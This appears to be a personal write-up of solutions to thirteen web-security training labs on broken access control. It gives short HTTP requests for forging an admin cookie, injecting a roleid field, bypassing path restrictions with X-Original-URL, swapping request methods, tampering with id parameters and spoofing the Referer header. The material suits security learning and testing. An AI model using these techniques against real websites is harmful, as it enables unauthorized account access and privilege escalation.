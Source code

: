 ## Lab - 1: Unprotected admin functionality (A)

- This lab has an unprotected admin panel. Solve the lab by deleting the user carlos.

- There is an unprotected route at `/administration-panel`

---

## Lab - 2: Unprotected admin functionality with unpredictable URL (A)

- This lab has an unprotected admin panel. It's located at an unpredictable location, but the location is disclosed somewhere in the application.

- Solve the lab by accessing the admin panel, and using it to delete the user carlos.

- Found a script that contain admin route.

```html
<script>
  var isAdmin = false;
  if (isAdmin) {
    var topLinksTag = document.getElementsByClassName("top-links")[0];
    var adminPanelTag = document.createElement("a");
    adminPanelTag.setAttribute("href", "/admin-n55l1b");
    adminPanelTag.innerText = "Admin panel";
    topLinksTag.append(adminPanelTag);
    var pTag = document.createElement("p");
    pTag.innerText = "|";
    topLinksTag.appendChild(pTag);
  }
</script>
```

---

## Lab - 3: User role controlled by request parameter (A)

- This lab has an admin panel at /admin, which identifies administrators using a forgeable cookie. Solve the lab by accessing the admin panel and using it to delete the user carlos. You can log in to your own account using the following credentials: wiener:peter

- login with wiener and change the cookie `Admin: false` to `Admin: true`

---

## Lab - 4: User role can be modified in user profile (A)

- This lab has an admin panel at /admin. It's only accessible to logged-in users with a roleid of 2. Solve the lab by accessing the admin panel and using it to delete the user carlos. You can log in to your own account using the following credentials: wiener:peter

- this lab is not realistic
- login with wiener. Change the account email and with POST request, add roleid.

```
POST /my-account/change-email HTTP/1.1
...

{"email":"test@test.com",
	"roleid":2
}
```

Then admin panel will appear.

---

## Lab - 5: URL-based access control can be circumvented (P)

- This website has an unauthenticated admin panel at /admin, but a front-end system has been configured to block external access to that path. However, the back-end application is built on a framework that supports the X-Original-URL header.

```
GET /?username=carlos HTTP/1.1
Host: 0a80006f04efe538c090448200ea0054.web-security-academy.net
...
X-Original-URL: /admin/delete
...
```

---

## Lab - 6: Method-based access control can be circumvented (P)

- This lab implements access controls based partly on the HTTP method of requests. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin.

- To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator.

- login as administrator and upgrading the user as admin goes through this route

```
POST /admin-roles HTTP/1.1
...
username=carlos&action=upgrade
```

- Login as wiener from a private browser and copy its session cookie and test the above POST method and return 401 response. If the POST method is changed to POSTX method, `"Missing parameter 'username'"` will be got.

- change the request method and send that request and carlos will be upgraded.

---

## Lab - 7: User ID controlled by request parameter (A)

- This lab has a horizontal privilege escalation vulnerability on the user account page. To solve the lab, obtain the API key for the user carlos and submit it as the solution. You can log in to your own account using the following credentials: wiener:peter

- found one endpoint

```
GET /my-account?id=wiener HTTP/1.1
...
```

- change the `id` parameter value

---

## Lab - 8: User ID controlled by request parameter, with unpredictable user IDs (A)

- found on endpoint with id

```
GET /my-account?id=a45226c1-1fad-41bd-98f4-8452c62c643f HTTP/1.1
...
```

- search for other user's id and found in one blog post

```html
<a href="/blogs?userId=e66a8702-4e90-4082-af18-3849f631b972">carlos</a>
```

---

## Lab - 9: User ID controlled by request parameter with data leakage in redirect (A)

- use Burp repeater and use endpoint `/my-account?id=carlos`
- though it is redirect, in Burp response, it contains API key.

---

## Lab - 10: User ID controlled by request parameter with password disclosure (A)

- This lab has user account page that contains the current user's existing password, prefilled in a masked input. To solve the lab, retrieve the administrator's password, then use it to delete carlos. You can log in to your own account using the following credentials: wiener:peter

- Login with wiener
- password is shown at my-account page
- at `/my-account?id=wiener` change to `/my-account?id=administrator`

---

## Lab - 11: Insecure direct object references (A)

- This lab stores user chat logs directly on the server's file system, and retrieves them using static URLs

- at `/chat` page, download button makes GET request from `/download-transcript/2.txt'

- try to download the `/download-transcript/1.txt`

---

## Lab - 12: Multi-step process with no access control on one step (P)

- This lab has an admin panel with a flawed multi-step process for changing a user's role. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin. To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator.

- Changing the role of admin takes two steps.
- First step,

```
POST /admin-roles HTTP/1.1
...
Referer: https://0ab400af04c9812bc05b131100ad0034.web-security-academy.net/admin
...
username=wiener&action=upgrade
```

- Second step to confirm which is vulnerable

```
POST /admin-roles HTTP/1.1
...
Referer: https://0ab400af04c9812bc05b131100ad0034.web-security-academy.net/admin-roles
...

action=downgrade&confirmed=true&username=wiener
```

---

## Lab - 13: Referer-based access control (P)

- This lab controls access to certain admin functionality based on the Referer header. You can familiarize yourself with the admin panel by logging in using the credentials administrator:admin. To solve the lab, log in using the credentials wiener:peter and exploit the flawed access controls to promote yourself to become an administrator.

- GET request with `wiener` account.

```
GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
...
Referer: https://0a540077039e8eafc08a03c5007300e7.web-security-academy.net/admin
...
```

---
